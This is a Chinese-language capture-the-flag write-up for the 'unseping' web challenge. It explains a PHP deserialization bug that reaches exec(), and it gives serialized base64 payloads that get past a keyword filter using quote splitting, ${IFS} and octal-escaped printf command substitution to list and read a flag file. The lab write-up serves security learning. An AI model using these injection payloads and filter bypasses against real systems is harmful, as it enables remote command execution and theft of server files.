


【攻防世界】Web新手题：unseping

题目来源：江苏工匠杯

题目描述：unseping

​	我的题解过程：

1、打开所给链接，映入眼帘的是一串非常长的PHP代码，那么接下来，不用多说，读代码呗。遇到这种题型，就是要读懂代码，然后payload。

```php
<?php
// 显示当前文件的源代码（高亮显示）
highlight_file(__FILE__);

// 定义一个名为ease的类
class ease{
    
    // 声明私有属性：方法名
    private $method;
    // 声明私有属性：参数数组
    private $args;
    
    // 构造函数，初始化method和args属性
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    // 析构函数，在对象被销毁时自动调用
    function __destruct(){
        // 检查method是否在允许的方法列表中（目前只有"ping"）
        if (in_array($this->method, array("ping"))) {
            // 使用回调函数的方式调用指定方法，并传递参数
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    // ping方法：执行系统命令并显示结果
    function ping($ip){
        // 执行系统命令，将结果存储在$result数组中
        exec($ip, $result);
        // 打印命令执行结果
        var_dump($result);
    }

    // Web应用防火墙（WAF）方法：过滤危险字符
    function waf($str){
        // 使用正则表达式检测危险字符和命令
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            // 如果没有匹配到危险字符，返回原字符串
            return $str;
        } else {
            // 如果检测到危险字符，输出警告信息
            echo "don't hack";
        }
    }
 
    // __wakeup魔术方法：在反序列化时自动调用
    function __wakeup(){
        // 遍历args数组中的每个参数
        foreach($this->args as $k => $v) {
            // 对每个参数进行WAF过滤
            $this->args[$k] = $this->waf($v);
        }
    }   
}

// 从POST请求中获取名为'ctf'的参数
$ctf=@$_POST['ctf'];
// 对获取的数据进行base64解码，然后反序列化为对象
@unserialize(base64_decode($ctf));
?>
```

​	我们来分析这个php代码：

​	（1）首先创建一个类叫ease

```
class  ease{

					}
```

​	（2）创建私有属性$method、$args

```
private $method;
private $args;	
```

​	（3）特殊函数和自定义函数

​	我一直以为这些函数都是自定义的，但是PHP还存在一些内置特殊函数：

```php
__construct() - 构造函数
｜ 作用：对象创建时自动调用
｜ 用途：初始化对象属性
｜ 调用时机：new ease("ping",array("ifconfig"))

    function __construct($method, $args) 
    {    
    $this->method = $method;    
    $this->args = $args;
    }
```

```php
__destruct() - 析构函数
｜ 作用：对象销毁时自动调用
｜ 用途：清理资源，这里用于出发命令执行
｜ 调用时机：脚本结束或对象被销毁时
    function __destruct(){ 
    if (in_array($this->method, array("ping"))) 
    {        
    call_user_func_array(array($this, $this->method), $this->args);    
    }
    					}

```

```php
__wakeup() - 反序列化魔术方法
｜ 作用：反序列化时自动调用
｜ 用途：这里 用于对参数进行安全过滤
｜ 调用时机：unserialize()执行时
    function __wakeup(){ 
    foreach($this->args as $k => $v) 
    {  
    	$this->args[$k] = $this->waf($v);  
    	}
    		}
```

```php
call_user_func_array() - 动态调用函数
｜ 作用：动态调用函数或方法
｜ 语法：call_user_func_array(callable $callback, array $args)//第一个参数时是调用，第二个参数是调用时要携带的参数，必须是数组。
```

```php
exec() - 执行系统命令
｜ exec($ip,$result);
｜ 作用：执行外部程序并输出
｜ 参数:$ip:要执行的命令  $result：存储命令输出的结果
```

```php
unserialize() - 反序列化
｜ 作用：反序列化漏洞，会触发对象的__wakeup()、__destruct() 等方法
```

​	当我们把每个函数的用法看懂后，整个php的流程明白后，就可以构造payload

2、很明显，这是一个序列化的题，并且还有waf需要绕过

​	首先需要构出序列化，并尝试绕过waf

​	分析：我们需要先查看这个目录下有哪些文件，所以这里用ls命令（LInux基础）但是这里有waf，所以我们在实列化的时候（也就是$a=new ease("ping",array('l""s'));这一步的时候)，就要进行绕过的步骤

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
     
}
 
$a=new ease("ping",array('l""s'));
$b = serialize($a);
echo base64_encode($b);
?>
```

​		解释绕过部分：array('l""s')

​					看起来这已经违背了Linux命令运行结构，但是在shell解析中，会将l""s解析为ls

序列化编码后的运行结果：

```
Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsIiJzIjt9fQ==
```

3、接着利用post方式接收ctf的值： 



​		网页回显结果  ：


4、到这里，我们思路不要乱，说明当前目录下还存在一个flag_ls_here这样的一个子目录，我们查看一下这个子目录
		同样需要绕过：因为过滤了flag这个字符串和空格

```php
$a=new ease("ping",array('l""s${IFS}f""lag_1s_here'));
```

​		解释${IFS}：IFS 是 Linux 的内部字段分隔符变量，默认值就是空格、制表符、换行符

序列化编码后的运行结果：

```
Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czoyNDoibCIicyR7SUZTfWYiImxhZ18xc19oZXJlIjt9fQ==	
```

​		网页回显结果：


​		说明在目录flag_ls_here下存在一个flag_831b69012c67b35f.php的文件

5、查看flag_ls_here下的flag_831b69012c67b35f.php的内容，可以利用cat查看文件内容，但是这里过滤了cat和/，所以我们需要绕过。

​		由于过滤了斜杠/，这里我们可以将cat flag_1s_here/flag_831b69012c67b35f.php这个命令转换成八进制（oct编码）或十六进制（Hex编码）

​		用python写一个进制转换脚本：

```python
str1 = "cat flag_1s_here/flag_831b69012c67b35f.php"
arr = []
# 将字符串中的每个字符转换为八进制表示形式
for i in str1:
    #对字符先转换为ASCII码，再转换为八进制
    r = oct(ord(i))
    #这个主要是为了将八进制前面的0o替换掉
    r=str(r).replace("0o","")
    arr.append(r)

# 使用反斜杠连接所有八进制字符码
s = "\\"
# print(arr)
#将所有的八进制组合，最终的结果第一个地方应该再添加一个\
p=s.join(arr)
print( '\\' + p)
```

​		运行结果：（该脚本去掉了前缀符，并添加反斜杠\使其成为转义字符）\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160

将转换后的结果代入到之前构造序列化的代码中：这里要注意，既然是转义字符，那么就需要printf，printf会将转移字符变回原来的字符，还需要用$来进行命令替换，不然的话，即便已经转成cat flag_1s_here/flag_831b69012c67b35f.php，但并不会当作命令执行，所以需要用$进行命令替换

```php
array('$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")')
```

​		序列化编码后的结果：

```php
Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czoxNjk6IiQocHJpbnRmJHtJRlN9IlwxNDNcMTQxXDE2NFw0MFwxNDZcMTU0XDE0MVwxNDdcMTM3XDYxXDE2M1wxMzdcMTUwXDE0NVwxNjJcMTQ1XDU3XDE0NlwxNTRcMTQxXDE0N1wxMzdcNzBcNjNcNjFcMTQyXDY2XDcxXDYwXDYxXDYyXDE0M1w2Nlw2N1wxNDJcNjNcNjVcMTQ2XDU2XDE2MFwxNTBcMTYwIikiO319
```

​		网页回显结果：



得出flag：cyberpeace{dac50ef75353cbfd6eb695936100fb50}

6、总结

​	这个ctf题考查了PHP的内置函数、反序列化以及字符绕过方式，这里需要Linux操作系统的基础命令，不仅需要知道get和post传参的区别，还需要会写构造序列化，以及写简单的脚本。

​	一步步来，不要心急，一定要有耐心，思路一定要清晰。
